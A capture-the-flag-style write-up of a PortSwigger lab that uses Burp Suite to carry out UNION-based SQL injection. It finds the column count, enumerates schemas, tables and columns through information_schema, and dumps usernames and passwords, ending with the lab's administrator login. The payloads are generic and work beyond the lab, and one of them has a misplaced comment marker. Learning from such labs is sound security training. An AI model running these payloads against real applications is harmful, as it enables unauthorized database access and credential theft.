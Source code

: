 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```


# SQL injection attack, listing the database contents on non-Oracle databases

<figure><img src="../../../.gitbook/assets/1 (160).png" alt=""><figcaption></figcaption></figure>

Let's filter for `Food & Drink`.

<figure><img src="../../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

<figure><img src="../../../.gitbook/assets/3 (7).png" alt=""><figcaption></figcaption></figure>

Let's forward the request to the `Repeater` for further modification.&#x20;

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test'--
```

<figure><img src="../../../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

Since the application returns an error, we know that the number of columns in the current query is more than 1. Let's set the `category` parameter to the following:

```
' UNION SELECT 'test','test'--
```

<figure><img src="../../../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

Now that we know the current query has two columns, we can start enumerating the databases.

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata--
```

<figure><img src="../../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

Now let's enumerate the tables present in the `public` database by setting the `category` parameter to:

```
' UNION SELECT table_name, NULL FROM information_schema.tables-- WHERE table_schema='public'--
```

<figure><img src="../../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

Next, we need to find the columns present in the `users_bfbtjz` table. We can do that by setting the `category` parameter to the following:

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_bfbtjz'--
```

<figure><img src="../../../.gitbook/assets/22 (1).png" alt=""><figcaption></figcaption></figure>

We can now retrieve the usernames and password from the `username_ylkdae` and `password_sdbuqk` columns respectively.&#x20;

For that we have to set the `category` parameter to the following:

```
' UNION SELECT username_ylkdae, password_sdbuqk FROM users_bfbtjz--
```

<figure><img src="../../../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

We can now login as the administrator using the following credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | x3lp8yt4oyymkeu9bppm |

<figure><img src="../../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>
